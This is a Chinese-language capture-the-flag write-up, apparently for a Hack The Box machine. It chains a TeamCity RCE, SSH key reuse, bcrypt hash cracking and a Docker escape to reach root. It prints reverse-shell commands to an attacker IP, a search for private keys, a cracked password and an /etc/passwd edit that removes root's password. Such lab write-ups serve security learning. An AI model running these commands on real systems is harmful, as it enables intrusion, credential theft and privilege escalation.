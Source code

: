 ```bash
```

把 Token 存到文件 `token`，然后执行这个 [PoC](https://github.com/Zyad-Elsayed/CVE-2023-42793/blob/main/rce.py)

```bash
python rce.py -u http://teamcity.runner.htb -t token -c '"/bin/bash"&params="-c"&params="sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.16.18%2F55555%200%3E%261"'
```

然后就拿到 shell 了，得到第一个 flag。注意这里是 docker 的 shell，执行 `python3 -c 'import pty; pty.spawn("/bin/bash")'` 换个 shell（不知道和直接 `bash` 有啥区别），传 `linpeas.sh` 执行没找到啥，但是能搜到一个 `id_rsa`。

```bash
find / -name id_rsa 2> /dev/null
```

这里 `2> /dev/null` 是把 stderr 重定向到 `/dev/null`，不然会有很多权限不足的提示。
在网站中的 User 里有个 john，然后就可以用这个 `id_rsa` 登录 john 了。

```bash
chmod 600 id_rsa
ssh john@runner.htb -i id_rsa
```

一开始报 `Load key "id_rsa": error in libcrypto`，原来是末尾少打一个换行。
再传 `linpeas.sh` 扫一轮，发现 `/etc/hosts` 里还有个域名叫 `portainer-administration.runner.htb`，加到本机里，然后访问，发现是个 Portainer，查漏洞，没有。

之前的网站是有个备份的，下载下来能找到 `users`，内容如下：

```csv
ID, USERNAME, PASSWORD, NAME, EMAIL, LAST_LOGIN_TIMESTAMP, ALGORITHM
1, admin, $2a$07$neV5T/BlEDiMQUs.gM1p4uYl8xl8kvNUo4/8Aja2sAWHAQLWqufye, John, john@runner.htb, 1717486715003, BCRYPT
2, matthew, $2a$07$q.m8WQP8niXODv55lJVovOmxGtg6K/YPHbD48/JQsdGLulmeVo.Em, Matthew, matthew@runner.htb, 1709150421438, BCRYPT
11, city_adminopx8, $2a$07$K1PwHspWALRGHbsy0XaPOe7cIK2IVF5hkq8DS/t0L6ulKDCNoACY2, , angry-admin@funnybunny.org, 1717487324779, BCRYPT
```

用 john 把 matthew 的密码爆出来，为 `piper123`，注意 john 会把结果存在 `~/.john/john.pot` 里，再跑的话要 `john --show hash.txt` 才能显示。

用这个去登录 Portainer，然后用 CVE-2024-21626 打 docker 逃逸，启动一个 container，把 working dir 挂到 `/proc/self/fd/8`，网页 shell 不好使，用 bash 弹个 shell 回来：

```bash
bash -i >& /dev/tcp/10.10.16.18/55555 0>&1
```

然后 `cat ../../../root/root.txt` 就拿到第二个 flag 了。
无聊的时候想用 john 爆 `/etc/shadow` 里 root 的密码，发现还得加 `--format=crypt`。

### 后继小研究

发现 docker 里面没有 nano 也没有 vim，但是有 sed，执行如下命令：

```bash
sed -i 's/root:x:/root::/' ../../../etc/passwd
```
